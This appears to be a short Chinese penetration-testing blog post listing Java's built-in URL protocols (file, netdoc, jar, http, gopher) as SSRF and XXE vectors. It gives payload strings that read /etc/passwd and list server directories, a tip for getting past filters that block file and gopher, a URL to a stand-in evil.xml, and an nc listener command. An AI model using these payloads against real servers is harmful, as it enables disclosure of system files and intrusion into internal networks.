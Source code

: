```yaml
---
layout: post
title:  java自定义通信协议及利用
noToc: true
date:   2019-01-13 09:30:00 +0800
tags: 内网探测 渗透测试
cover: '../assets/' 
---
```


java自定义通信协议及利用

JAVA默认提供了对file,ftp,gopher,http,https,jar,mailto,netdoc协议的支持 。

file(ssrf、xxe)：

```
file:///etc/passwd
```

netdoc(ssrf、xxe)：

知道文件名和文件路径，很简单我们只要知道文件路径然后利用我们的 netdoc 去列目录就能知道文件名了 

```
netdoc:///var/www/html/
```

ps:过滤了file、gopher可使用netdoc代替

jar(ssrf、xxe):

```
jar:http://localhost:9999/jar.zip!/1.php
```

http(ssrf、xxe):

```
http://url/file.ext
http://example.com/evil.xml
```

gopher(ssrf、xxe):

```
gopher://ip:port/xxx
```

监听：nc -vv -l -p  port
